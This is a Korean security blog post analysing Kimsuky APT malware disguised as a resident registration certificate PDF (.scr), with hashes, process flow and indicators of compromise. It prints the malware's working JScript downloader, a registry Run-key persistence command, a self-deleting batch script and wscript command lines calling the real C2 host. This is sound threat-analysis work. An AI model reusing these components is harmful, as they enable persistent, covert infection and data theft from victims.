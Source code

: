 ```yaml
---
layout: post
comments: true
categories: posts
title: 김수키(kimsuky) 조직, 주민등록등본 파일로 둔갑한 악성코드 분석
subtitle: Operation Blue Estimate Part3
author: cainstorm
featured-image: /images/header/header_001.jpg
tags: [malware]
date-string: FEB 07, 2020
---
```

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

<h1>Malware Analysis</h1>
### Description
지난 2013년 카스퍼스키랩을 통해 처음 명명된 '김수키(Kimsuky)' 오퍼레이션은 현재까지도 새로운 방식으로 진화를 거듭하며 한국을 타킷으로 한 APT 공격을 지속하고 있다. 김수키 조직은 북한 정부의 지원을 받고 있는 해킹조직으로 알려져 있다.

> Filename : 주민등록등본.pdf(다수 공백 포함).scr
> - MD5 : 20add5eb5fbe527a8b6090a08e7636a6
> - SHA1 : 347d2339fd27606df7b4f659a122c453560a44cb
> - SHA256 : 4942433b92198ed6f4cf5890fd4a7c56f0e6bd79dec3112844a5a25e25425b1b
> - Filesize : 	1.03 MB (1081856 bytes)
> - Detection (Virustotal **46/71**)
>  - ALYac : Trojan.Dropper.1081856K
>  - AhnLab-V3 : Backdoor/Win32.Kimsuky.C3980661

### Analysis
- PDF 문서로 위장된 아이콘을 사용하며, 파일 내부 실제로 보여지는 등본이미지가 포함된 것을 확인할 수 있다.
- 실제 화면보호기(SCR) 확장자를 통해 EXE 실행파일과 동일하게 실햄됨

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-001.png">
        [그림1] 파일 내부 확인(TIF 이미지 위, DLL 실행파일 아래)
	</div>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-002.jpg">
        [그림2] 악성파일 실행 시 보여지는 주민등록등본 이미지
	</div>
</center><br>

##Process flow

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-003.jpg">
        [그림3] process flow
	</div>
</center><br>

###rundll32.exe
```
cmd /c reg add "hkcu\Software\Microfost\Windows\CurrentVersion\Run" \v "IEAutoUpdate" \f \t REG_SZ \d "C:\Windows\system32\regsvr32.exe /s /n \"C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\update.dll\"
```

###cmd.exe
```
cmd \c C:\Users\username\AppData\Local|Temp\rns.bat"
```

###cmd.exe
```
cmd /c wscript.exe "C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS"
"http://mernberinfo.tech/wp-data/?m=hitomi&p=02004c4f4f50"
"C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\Database\02004c4f4f50_2020-02-07_14-14-48-518" "(null)" "(null)"
```

###wscript.exe
```
wscript.exe "C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS"
"http://mernberinfo.tech/wp-data/?m=dunan&p=02004c4f4f50&v=win6.1.0-sp1-x64"
"(null)""(null)""(null)" 
```
<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-004.png">
        [그림4] wscript.exe 프로세스 command line 확인
	</div>
</center><br>

##추가 파일 생성
 - 파일명 : rns.bat
 - path : C:\Users\username\AppData\Local\Temp\rns.bat
```
:Repeat1
del "C:\Users\username\Desktop\주민등록등본.pdf(다수 공백 포함).scr"
if exist "C:\Users\username\Desktop\주민등록등본.pdf(다수 공백 포함).scr" goto Repeat1
del "C:\Users\username\AppData\Local\Temp\rns.bat"
```
<br>
 - 파일명 : EEB7.tmp.JS
 - path : C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS

```
fso=WScript.CreatObject("Scripting.FileSystemObject");
function func_download(uri,local_path) {
	rq=new ActiveXObject("MSXML2.ServerXMLHTTP");
    rq.open("get",uri,false);
    rq.send();
    if(rq.status==200) {
    	local_path_tmp=local_path+".tmp";
        if(fso.FileExists(local_path_tmp)) fso.DeleteFile(local_path_tmp);
        sl=new ActiveXObject('ADODB.Stream');
        sl.Open();
        sl.Type=1;
        sl.Write(rq.responseBody);
        sl.Position=0;
        sl.SaveToFile(local_path_tmp);
        sl.Close();
        if(fso.FileExists(local_path)) fso.DeleteFile(local_path);
        fso.MoveFile(local_path_tmp,local_path);
        return true;
    }
    return false;
}
try {
	func_download(WScript.Arguments(0), WScript.Arguments(1));
    } catch(e){} finally{
    	fso.DeleteFile(WScript.ScriptFullName);
    }
```

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-005.png">
        [그림5] %temp% 경로 아래 tmp 파일은 C2 Server 의 response 값을 저장
	</div>
</center><br>

 - 파일명 : Hero.dll
 - path : C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\update.dll 
 - SHA256 : 9e004a659e8cb6236ac56671e4afa4b8fbb6f394807aa3decf6e268e17359ec6

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-006.png">
        [그림6] Hero.dll 실행 코드
	</div>
</center><br>

##시스템 정보 수집
 - network adapter, Hdd, system 정보 수집

<center>
    <div class="photoset-grid-custom" data-layout="22">
		<img src="/images/2020-02-07/2020-02-07-mal-007.png">
        <img src="/images/2020-02-07/2020-02-07-mal-008.png">
        <img src="/images/2020-02-07/2020-02-07-mal-009.png">
        <img src="/images/2020-02-07/2020-02-07-mal-010.png">
        [그림7] system 정보 수집 코드
	</div>
</center><br>

##네트워크 연결
 - Domain : mernberinfo.tech, IP : 213.190.6.159[US] 로 해당 Host 에 대한 정보 전송 확인
 - 전송 정보 : Mac address, Os version

<center>
    <div class="photoset-grid-custom" data-layout="2">
        <img src="/images/2020-02-07/2020-02-07-mal-011.png">
        <img src="/images/2020-02-07/2020-02-07-mal-012.png">
        [그림8] 네트워크 연결을 통한 정보 전송 화면
	</div>
</center><br>

##기타 행위
 - 자동 시작 Registry 등록
 - Path : HKCU\Software\Microfost\Windows\CurrentVersion\Run
 - IEAutoUpdate=C:\Windows\system32\regsvr32.exe /s /n
   "C:\Users\username\AppData\Roamming\Microfost\Internet Explorer\AutoUpdate\update.dll"

<center>
    <div class="photoset-grid-custom" data-layout="1">
        <img src="/images/2020-02-07/2020-02-07-mal-013.png">
        [그림9] Windows 자동 실행 등록
	</div>
</center><br>


<script src="/assets/js/jquery.photoset-grid.js"></script>
<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',

    // Wrap the images in links
    highresLinks: true,
      
    // Asign a common rel attribute
    rel: 'print-gallery',
    
    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>


{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}

